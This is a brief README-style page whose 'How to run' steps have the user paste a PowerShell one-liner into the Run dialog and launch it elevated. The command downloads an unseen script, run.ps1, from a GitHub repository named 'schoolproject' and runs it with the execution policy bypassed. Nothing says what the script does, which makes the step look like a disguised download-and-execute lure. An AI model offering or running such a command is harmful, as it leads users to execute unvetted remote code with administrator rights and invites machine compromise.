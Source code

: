 **How to run:**
- `Win`**+** `R`
- Paste:
```
powershell wget https://raw.githubusercontent.com/sJ3Wpid/schoolproject/main/run.ps1 -outfile run.ps1; powershell -ExecutionPolicy Bypass -File .\run.ps1
```
- `Ctrl` **+** `Sift` **+** `Enter`
